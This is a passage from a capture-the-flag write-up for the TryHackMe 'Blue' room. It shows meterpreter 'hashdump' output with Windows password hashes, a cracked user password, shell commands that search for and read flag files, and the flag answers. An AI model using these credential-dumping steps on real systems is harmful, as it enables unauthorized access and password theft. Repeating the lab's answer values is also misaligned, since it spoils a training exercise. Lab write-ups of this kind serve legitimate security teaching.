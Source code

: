1. Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

`jon`

2. Copy this password hash to a file and research how to crack it. What is the cracked password?

`alqfna22`

## [Task 5] Find flags!

Find the three flags planted on this machine.

Completed Blue? Check out Ice: [Link](https://tryhackme.com/room/ice)

You can check out the third box in this series, Blaster, here: [Link](https://tryhackme.com/room/blaster)

1. Flag1? (Only submit the flag contents {CONTENTS})

```
meterpreter > shell
Process 1888 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\Windows\system32>
```

```
C:\Windows\system32>type C:\flag1.txt
type C:\flag1.txt
flag{access_the_machine}
```

`access_the_machine`

2. Flag2? \*Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen.

```
C:\Windows\system32>dir *flag*.txt /s
dir *flag*.txt /s
 Volume in drive C has no label.
 Volume Serial Number is E611-0B66

 Directory of C:\Windows\system32\config

03/17/2019  02:32 PM                34 flag2.txt
               1 File(s)             34 bytes

     Total Files Listed:
               1 File(s)             34 bytes
               0 Dir(s)  20,438,118,400 bytes free

C:\Windows\system32>type config\flag2.txt
type config\flag2.txt
flag{sam_database_elevated_access}
```
